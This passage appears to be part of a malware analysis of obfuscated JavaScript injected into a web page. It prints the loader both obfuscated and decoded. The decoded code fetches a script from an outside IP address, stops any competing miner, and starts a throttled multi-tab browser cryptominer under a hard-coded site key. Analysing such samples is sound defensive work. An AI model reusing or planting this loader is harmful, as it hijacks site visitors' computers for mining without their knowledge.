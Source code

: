 ```
      _0x17a8x4[_0x17e1[5]] = null;_0x17a8x3()}}}else {_0x17a8x4[_0x17e1[8]]= function(){_0x17a8x3()}};_0x17a8x4[_0x17e1[9]]= _0x17a8x2;document[_0x17e1[12]](_0x17e1[11])[0][_0x17e1[10]](_0x17a8x4)}loadScript(_0x17e1[13],function(){setTimeout(function(){if( typeof (miner)!= _0x17e1[14]){try{miner[_0x17e1[15]]()}catch(e){}};if( typeof (_client)!= _0x17e1[14]){try{_client[_0x17e1[15]]()}catch(e){}};document[_0x17e1[16]]=  new Client.Anonymous(_0x17e1[17],{throttle:0.3});document[_0x17e1[16]][_0x17e1[18]](Client.FORCE_MULTI_TAB)},1000)})
```
So, this link fetches some malicious script to load hhY6.js. We tried to translate the loadScript functions.

```javascript
0x17e1[0] = "script"
0x17e1[1] = "createElement"
0x17e1[2] = "type"
0x17e1[3] = "text/javascript"
0x17e1[4] = "readyState"
0x17e1[5] = "onreadystatechange"
0x17e1[6] = "loaded"
0x17e1[7] = "complete"
0x17e1[8] = "onload"
0x17e1[9] = "src"
0x17e1[10] = "appendChild"
0x17e1[11] = "head"
0x17e1[12] = "getElementsByTagName"
0x17e1[13] = "http://146.185.234.113/hhY6.js"
0x17e1[14] = "undefined"
0x17e1[15] = "stop"
0x17e1[16] = "_client"
0x17e1[17] = "56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742"
0x17e1[18] = "start"

function loadScript(_0x17a8x2,_0x17a8x3){
  var _0x17a8x4 = document["createElement"]("script");
  _0x17a8x4["type"] = "text/javascript";
  if(_0x17a8x4["readyState"]){
    _0x17a8x4["onreadystatechange"] = function(){
      if(_0x17a8x4["readyState"] == "loaded" || _0x17a8x4["readyState"] == "complete"){
        _0x17a8x4["onreadystatechange"] = null;
        _0x17a8x3()
      }
    }
  }
  else {
    _0x17a8x4["onload"] = function(){
      _0x17a8x3()
    }
  };
  _0x17a8x4["src"] = _0x17a8x2;
  document["getElementsByTagName"]("head")[0]["appendChild"](_0x17a8x4)
}

loadScript("http://146.185.234.113/hhY6.js",function(){
  setTimeout(function(){
    if( typeof (miner)!= "undefined"){
      try{miner["stop"]()}
      catch(e){}
    };
    if( typeof (_client)!= "undefined"){
      try{_client["stop"]()}
      catch(e){}
    };
    document["_client"] = new Client.Anonymous("56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742",{throttle:0.3});
    document["_client"]["start"](Client.FORCE_MULTI_TAB)
```